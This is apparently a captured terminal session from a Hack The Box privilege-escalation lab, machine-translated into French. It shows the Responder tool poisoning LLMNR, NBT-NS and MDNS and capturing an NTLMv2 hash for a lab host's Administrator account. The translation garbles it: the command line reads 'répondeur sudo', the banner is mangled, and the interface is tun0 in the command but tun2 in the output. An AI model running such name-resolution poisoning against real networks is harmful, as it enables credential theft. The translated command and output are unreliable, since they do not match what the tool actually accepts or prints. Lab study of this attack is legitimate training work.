 ```
dsgsec@htb[/htb]$ répondeur sudo -wrf -v -I tun0
                                          __
   .----.-----.-----.-----.-----.-----.--| |.-----.----.
   | _| -__|__ --| _ | _ | | _ || -__| _|
   |__| |_____|_____| __|_____|__|__|_____||_____|__|
                    |__|

            Répondant NBT-NS, LLMNR et MDNS 3.0.2.0

   Auteur : Laurent Gaffie (laurent.gaffie@gmail.com)
   Pour tuer ce script, appuyez sur CTRL-C

[+] Empoisonneurs :
     LLMNR [ON]
     NBT-NS [ON]
     DNS/MDNS [ACTIVÉ]

[+] Serveurs :
     Serveur HTTP [ON]
     Serveur HTTPS [ON]
     Proxy WPAD [ON]
     Proxy d'authentification [NON]
     Serveur SMB [ON]
     Serveur Kerberos [ON]
     Serveur SQL [ON]
     Serveur FTP [ON]
     Serveur IMAP [ON]
     Serveur POP3 [ACTIVÉ]
     Serveur SMTP [ON]
     Serveur DNS [ON]
     Serveur LDAP [ON]
     Serveur RDP [ON]

[+] Option HTTP :
     Toujours servir EXE [OFF]
     Servir EXE [OFF]
     Diffusion de HTML [NON]
     Proxy en amont [OFF]

[+] Options d'empoisonnement :
     Mode analyse [OFF]
     Forcer l'authentification WPAD [OFF]
     Forcer l'authentification de base [OFF]
     Forcer la rétrogradation LM [OFF]
     Hôtes d'empreintes digitales [ON]

[+] Options Génériques :
     NIC du répondeur [tun2]
     IP du répondeur [10.10.14.3]
     Ensemble de défis [aléatoire]
     Ne pas répondre aux noms ['ISATAP']

[!] Erreur lors du démarrage du serveur SSL sur le port 443, vérifiez les autorisations ou les autres serveurs en cours d'exécution.
[+] A l'écoute des événements...
[SMB] Client NTLMv2-SSP : 10.129.43.30
[SMB] Nom d'utilisateur NTLMv2-SSP : WINLPE-SRV01\Administrateur
[SMB] Hachage NTLMv2-SSP : Administrateur ::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...

```

